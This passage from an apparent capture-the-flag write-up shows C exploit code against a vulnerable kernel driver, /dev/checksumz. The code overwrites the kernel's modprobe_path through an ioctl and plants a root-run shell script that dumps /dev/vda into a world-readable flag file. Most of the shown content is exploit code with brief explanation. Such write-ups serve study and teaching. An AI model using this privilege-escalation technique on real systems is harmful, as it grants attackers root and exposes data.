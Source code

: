```c
size_t modprobe_path = kernel_base + modprobe_path_offset;
printf("modprobe_path: %p\n", modprobe_path);

// point buffer->pos so we can write in buffer->name
lseek(fds[0], 512 + 16, SEEK_SET);
// write modprobe_path in buffer->name
write(fds[0], &modprobe_path, sizeof modprobe_path);

prepare_modprobe_files();

// write to modprobe_path
ioctl(fds[0], CHECKSUMZ_IOCTL_RENAME, EXPLOIT_SH);

// execute invalid file that will trigger modprobe_path
system(TRIGGER_SH);
```

But we also have to prepare the files needed for the `modprobe_path` exploit. We need a file with an invalid
magic header, and a file that will actually do the exploit. The path of the second file will be written into `modprobe_path`,
while the first one will just be executed to trigger the exploit.

```c 
void prepare_modprobe_files() {
    {
        int fd = open(EXPLOIT_SH, O_CREAT | O_WRONLY);
        char buf[] = "#!/bin/sh\ntouch /tmp/pwned\ncat /dev/vda > /tmp/flag\nchmod 777 /tmp/flag\n";
        write(fd, buf, sizeof buf);
        fchmod(fd, 0777);
        close(fd);
    }
    {
        int fd = open(TRIGGER_SH, O_CREAT | O_WRONLY);
        char buf[] = "\xff\xff\xff\xff";
        write(fd, buf, sizeof buf);
        fchmod(fd, 0777);
        close(fd);
    }
}
```

After executing the exploit, we now have a file called `pwned` and a copy of the flag.

![](02.png)

Final exploit:

```c
#include "api.h"
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <string.h>
#include <sys/stat.h>

#define TARGET "/dev/checksumz"
#define ARRAY_SIZE(array) (sizeof(array) / sizeof(array[0]))
#define FD_COUNT 1000
#define EXPLOIT_SH "/tmp/exploit.sh"
#define TRIGGER_SH "/tmp/trigger.sh"

```